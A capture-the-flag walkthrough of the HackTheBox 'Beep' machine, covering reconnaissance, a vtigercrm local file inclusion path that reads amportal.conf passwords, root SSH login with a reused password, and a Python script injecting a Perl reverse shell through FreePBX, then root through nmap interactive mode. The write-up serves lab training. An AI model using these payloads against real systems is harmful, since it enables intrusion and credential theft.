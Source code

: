 # HackTheBox - Beep Writeup


## Nmap

As always. I'm gonna run the Nmap scan against this IP address `10.10.10.7`.  Here is the result of the scan

### the result

```sql
# Nmap 7.92 scan initiated Sun Jan 16 05:37:13 2022 as: nmap -sC -sV -p- -oN nmap/beep_all 10.10.10.7
Nmap scan report for 10.10.10.7
Host is up (0.056s latency).
Not shown: 65519 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: PIPELINING TOP APOP LOGIN-DELAY(0) EXPIRE(NEVER) UIDL USER STLS IMPLEMENTATION(Cyrus POP3 server v2) AUTH-RESP-CODE RESP-CODES
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_imap-capabilities: RENAME OK THREAD=REFERENCES IMAP4rev1 SORT=MODSEQ ID X-NETSCAPE LIST-SUBSCRIBED ACL NAMESPACE CATENATE LISTEXT RIGHTS=kxte SORT NO QUOTA IDLE CONDSTORE IMAP4 ANNOTATEMORE THREAD=ORDEREDSUBJECT BINARY ATOMIC URLAUTHA0001 CHILDREN UNSELECT Completed UIDPLUS MULTIAPPEND LITERAL+ MAILBOX-REFERRALS STARTTLS
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_imap-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
|_http-server-header: Apache/2.2.3 (CentOS)
|_ssl-date: 2022-01-15T22:41:00+00:00; +1h00m01s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Elastix - Login page
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
|_ssl-known-key: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
3306/tcp  open  mysql      MySQL (unauthorized)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 1h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 16 05:42:46 2022 -- 1 IP address (1 host up) scanned in 332.87 seconds
```

that's bunch of the open ports on this machine. 

### Webserver

This machine has apache running on `port 80`. When I visited the page it was redirected into `port 443` which is the Elastix login page.

![elastix login page](elastix_login_page.png "elastix login page")

### Gobuster
Well, I'm gonna run the `gobuster` on this webserver. Try to find any hidden directory on it. I'm gonna use the `PHP` as `-x` extension because this server running on PHP.

![gobuster](gobuster.png "gobuster")

### /admin

The `/admin` really does sound good to me. When I visited the admin page. It's prompt me with `login forms`.

![admin login prompt](admin_login.png "admin login prompt")

I try a bunch of passwords such as `admin:admin` but it doesn't work. However, when I clicked the `cancel` button. It goes to this page `https://10.10.10.7/admin/config.php` and displays the `Unauthorized` message.

![freepbx page](freepbx_cancel.png "freepbx page")

### Local File Inclusion/LFI
This box has an `LFI` tag on it. I know it sounds not fair at all but information matters. 
So, I'm run the `searchsploit` and found this.

![found exploit in searchsploit](elastix_lfi.png "found exploit in searchsploit")

I'm gonna mirror/copy this exploit in my current directory with `-m` flag. Here is the exploit/PoC :
```js
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

it's basically, using `current_language` as the parameter. This `PoC` already includes the `config file` on it. I'm gonna copy/paste this in my browser and VOILA!

![read config file](conf_file.png "read config file")

I managed to grab a bunch of passwords that appear in this file but a lot of passwords seem to be `commented` out. 
Just one password does not get commented out and appears more often in here.

## Method: 1

### SSH

The Nmap scan result shows us `port 22` is open. Well, I've got the potential password and don't know what users it belongs to. So, I'm gonna try my luck to go with the `root` user

{{< admonition warning "Error" >}}
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. </br>
Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
{{< /admonition >}}


If you get one of these errors just like me. You need to run an ssh command like this

{{< admonition tip >}}
```bash
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
```
{{< /admonition >}}

source - [Solution for SSH unable to Negotiate Errors](https://www.infosecmatter.com/solution-for-ssh-unable-to-negotiate-errors/)

![ssh as root](ssh_root.png "ssh as root")

Finally, I login in as root through `SSH`. Let's get the `user` and `root` flags.

### the flag

![flags](the_flag.png "flags")

## Method: 2

### RCE

The last exploit I'm using was `LFI 'graph.php'` and the version of `Elastix` was `2.2.0` and this `RCE` have the same version of Elastix.

![freepbx rce](rce_freepbx.png "freepbx rce")

As always, I'm gonna mirror/copy this exploit into my current working directory with the `-m` flag. When I ran the exploit it shows a bunch of errors regard to `SSL`. I tried fixing the error by changing the python code and it was painful but I managed to fix it. Here is the code:

### 18650.py3

```python
#!/usr/bin/python3
import ssl, urllib3

rhost = "10.10.10.7"
lhost = input("lhost>: ") 
lport = input("lport>: ")        
ext = input("ext>: ")
head = f"https://{rhost}/recordings/misc/callme_page.php?action=c&callmenum={ext}@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20"
payload = f"perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22{lhost}%3a{lport}%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'"
url = head + payload

# SSL Handler
urllib3.disable_warnings()
http = urllib3.PoolManager(cert_reqs="CERT_NONE")

# Execute
print("ExPl0itInG...")
http.request("GET", url)
```

### svwar/SIPVicious
I ran the exploit one more time and it doesn't work. I'm speechless and I saw the `extension` in the original script that set the value into `1000` and maybe this is not a valid extension. So, I'm gonna run the `svwar/SIPVicious` tool to identify a working extension.
 
I'm gonna run this command:
```bash
svwar -m INVITE -e100-400 10.10.10.7
```
 
![find valid extension](svwar.png "find valid extension")
 
## Shell as Asterisk
Now, let's run the exploit again and make sure to set up the Netcat listener first.
 
![shell as asterisk](shell.png "shell as asterisk")
 
YES! it worked. Based on the comment in the original exploit, I can be a root user by using `nmap --interactive`. Let's do it. 
 
![shell as root](nmap_root.png "shell as root")

TADAA!! Now, I'm a root user.
